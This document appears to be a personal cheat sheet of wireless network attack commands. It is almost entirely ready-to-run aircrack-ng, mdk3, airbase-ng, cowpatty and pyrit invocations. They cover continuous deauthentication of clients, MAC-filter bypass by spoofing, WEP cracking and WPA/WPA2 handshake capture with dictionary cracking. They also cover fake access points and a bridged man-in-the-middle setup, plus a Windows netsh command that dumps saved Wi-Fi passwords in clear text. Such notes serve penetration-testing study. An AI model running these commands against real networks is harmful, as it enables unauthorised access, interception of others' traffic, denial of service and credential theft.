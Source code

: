 1. monitor is mode is like promiscuous mode of the ethernet world where all the traffic can be monitored at a given time on the current channel.

**Powering up the wireless card**
2. ifconfig wlan0 up ---> start the wireless card 

3. airmon-ng start wlan0 <channel> ---> monitor mode interface is created on top of the device for sniffing 

**Check active Access points and the stations/clients connecting to it**
4. airodump-ng --band bn wlan0mon ---> make the card hop through different channel and check wifi traffic

5. mdk3 wlan0mon b -n baba ---> Creating a fake AP broadcasting beacons with SSID baba

**Finding Hidden SSIDs**
6. 
	a. Passive way - monitor the network for clients to connect
	b. active way - break all the connections between clients and Access point and further monitor the traffic for assocication traffic.
		(send the deauthentication notification packet to the clients)

	aireplay-ng --deauth 0 -a <BSSID> wlan0mon -D   

	--deauth 0 will continously send deauth packets
	-D disable AP detection

7. Bypassing MAC filters

	a. aireplay-ng --fakeauth 10 -e Logan wlan0mon  --> Trying a fake authentication using the wireless card when MAC filter is off(open network)
	b. aireplay-ng --fakeauth 10 -e Logan wlan0mon -h <whiteListedMacAddress> --> To spoof a mac address and fool the AP to allow authentication

8. Cracking Shared/WEP encyption
	
	a. aireplay-ng --fakeauth 10 -e Logan wlan0mon -y <KeyStreamFile>

9. Creating random soft wifi interface

	a. airbase-ng -a AA:AA:AA:AA:AA:AA -e Logan wlan0mon

10. MiTM over Wireless

	a. airbase-ng -a AA:AA:AA:AA:AA:AA -e Logan wlan0mon -v    ---> Broadcast fake AP SSID
	b. ifconfig at0 up  ---> Power up the soft interface created
	c. 
		1. brctl addbr mitm  ---> creating bridge mitm with brctl
		2. brctl addif mitm eth0  ---> adding interfaces to the bridge
		   brctl addif mitm at0

		3. ifconfig eth0 0.0.0.0 up
		   ifconfig at0 0.0.0.0 up

		4. ifconfig mitm up   ---> powering up the bridge interface
		5. dhclient mitm & ---> running dhcp client on bridge interface 	
			---> bridge the 2 interfaces (at0 with the other interface that has internet On)

**links --> https://forums.kali.org/showthread.php?17926-Fake-access-point-ettercap-sslstrip

11. Breaking WEP

	a. airodump-ng --channel 6 wlan0mon --write <fileName> --bssid <bssid>  ---> Start dumping packets on the target channel 
	b. aireplay-ng --arpreplay -e Logan -h <macAddressOfVictim> wlan0mon ---> Replay arp packets (In parallel fire this command)
	3. aircrack-ng <capFile>  ---> Start cracking with aircrack

12. Cracking WPA/WPA2 (Dictionary based attack)
	a. airodump-ng mon0 --channel 6 --essid <wifiAPName> --write <file> ---> Capture the handshake
	b. use aircrack/ cowpatty along with the dictionary
	c. aircrack -w dict <pcapCaptureFile>

13. Cracking/Decrypting with airdecap-ng/ genpmk/ cowpatty/ pyrit - faster way

	a. airdecap-ng -e <essid> -p <passPhrase> <capturedPcapFile> -b <bssid>

	Fastening up the process by pre-calculating the PMKs and then trying the Dictionary attack with the already generated PMKs

	b. genpmk -f <dictionaryFile> -s <ESSID> -d <outputFile>  ---> Preshared key or PMK list creation
	c. cowpatty -d prePmks -s "Logan" -r malWpa2-01.cap  ---> Cracking with cowpatty

	With Pyrit

	d. pyrit -r <capFile containing handShake> analyze   ---> analyze the capture pcap file and derive handshakes and APs
	e. pyrit -o <pmkFile> -i <dictionaryFile> -e <ssid> passthrough

	f1. cowpatty -d <pmkFile> -s <ssid> -r <capturedPcapFile>
			or

	f2. pyrit -r <pcapfile> -i <precoputedPMKfile> attack_cowpatty	

	With Aircrack - analyze the handshake capture file

	g. aircrack -w dict <pcapCaptureFile>	

14. Creating a WEP, WPA fakes access point/ Honeypots	

	a. airbase-ng --essid Popeye -a aa:aa:aa:aa:aa:aa -c 13 mon1 (WEP)
	b. airbase-ng -W 1 --essid Popeye -a cc:cc:cc:cc:cc:cc -c 13 mon1 -z 2  (WPA)
	c. airbase-ng -W 1 --essid Popeye -a dd:dd:dd:dd:dd:dd -c 13 mon4 -Z 4  (WPA2)

15. WPA_Supplicant

	**wpa_supplication.conf** 

	ctrl_interface=/var/run/wpa_supplicant
	ap_scan=1

	network={
	ssid="Pop"
	proto=WPA
	key_mgmt=WPA-PSK
	pairwise=CCMP TKIP
	group=CCMP TKIP WEP104 WEP40
	psk="boloTarara"
	priority=2
	}

	**command**
	wpa_supplicant  -iwlan0 -c wpa_supplicant.conf
	
16. Windows WiFi commands

	a. netsh wlan show interfaces --> view all wifi interfaces

	b. netsh wlan show drivers  --> extract current wifi driver information

	c. netsh wlan show networks --> view available networks


	d. netsh wlan show profiles  --> view profiles of the wifi network that the windows machine has connected 

	e. netsh wlan show profiles name="SSID" --> look at the configuration details of a previously connected AP

	f. netsh wlan connect name="kela" interface="Wi-Fi" --> Connect to a wifi network from cmd

	g. netsh wlan export profile name="kela"  --> Dump the profile in an external file

	h. netsh wlan show profile name="kela" key=clear  --> Dump wifi password in plain text

	i. netsh wlan set hostednetwork mode=allow ssid=Ambanis key=l@urA1234     --> Creating a hosted network on windows
    	netsh wlan start hostednetwork






